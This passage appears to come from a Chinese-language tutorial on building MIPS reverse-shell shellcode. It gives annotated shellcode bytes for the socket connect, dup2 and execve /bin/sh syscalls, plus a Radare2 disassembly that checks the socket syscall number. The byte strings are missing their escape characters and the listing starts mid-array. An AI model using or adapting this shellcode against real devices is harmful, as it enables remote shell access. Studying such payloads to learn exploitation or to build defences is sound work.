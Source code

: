 ```

    # Socket Connect SYSCALL
        "x4ax10x02x24", # li    v0,4170
        "x0cx01x01x01", # syscall   0x40404


        "xfdxffx0fx24", # li    t7,-3
        "x27x78xe0x01", # nor   t7,t7,zero
        "xffxffxa4x8f", # lw    a0,-1(sp)
        "x21x28xe0x01", # move  a1,t7

    # Dup2 SYSCAL
        "xdfx0fx02x24", # li    v0,4063
        "x0cx01x01x01", # syscall   0x40404


        "xffxffx10x24", # li    s0,-1
        "xffxffxefx21", # addi  t7,t7,-1
        "xfaxffxf0x15", # bne   t7,s0,68 &lt;dup2_loop&gt;
        "xffxffx06x28", # slti  a2,zero,-1
        "x62x69x0fx3c", # lui   t7,0x6962
        "x2fx2fxefx35", # ori   t7,t7,0x2f2f
        "xecxffxafxaf", # sw    t7,-20(sp)
        "x73x68x0ex3c", # lui   t6,0x6873
        "x6ex2fxcex35", # ori   t6,t6,0x2f6e
        "xf0xffxaexaf", # sw    t6,-16(sp)
        "xf4xffxa0xaf", # sw    zero,-12(sp)
        "xecxffxa4x27", # addiu a0,sp,-20
        "xf8xffxa4xaf", # sw    a0,-8(sp)
        "xfcxffxa0xaf", # sw    zero,-4(sp)
        "xf8xffxa5x27", # addiu a1,sp,-8

    # Execve SYSCALL
        "xabx0fx02x24", # li    v0,4011
        "x0cx01x01x01"  # syscall   0x40404
], '')
```

第一个安装Socket（Syscall w/ Value 4183）<br>
连接到Socket（Syscall w/ Value 4170）<br>
为stdin/stdout重定向调用dup2（Syscall w/ Value 4063）<br>
使用/bin/sh调用Execve（Syscall w/ Value 4011）<br>
我们可以通过查看Radare2中C函数的反汇编内容，来验证系统调用。接下来，我们将继续验证Socket系统调用。

```
=-------------------------=
| [0x400680]              |
| __GI_socket:            |
| (fcn) sym.socket 36     |
| lui gp, 5               |
| addiu gp, gp, -0x6600   |
| addu gp, gp, t9         |
| addiu sp, sp, -0x20     |
| sw ra, 0x1c(sp)         |
| sw s0, 0x18(sp)         |
| sw gp, 0x10(sp)         |
| addiu v0, zero, 0x1057  | // Hex 0x1057 is 4183 in decimal
| syscall                 |
=-------------------------=
```
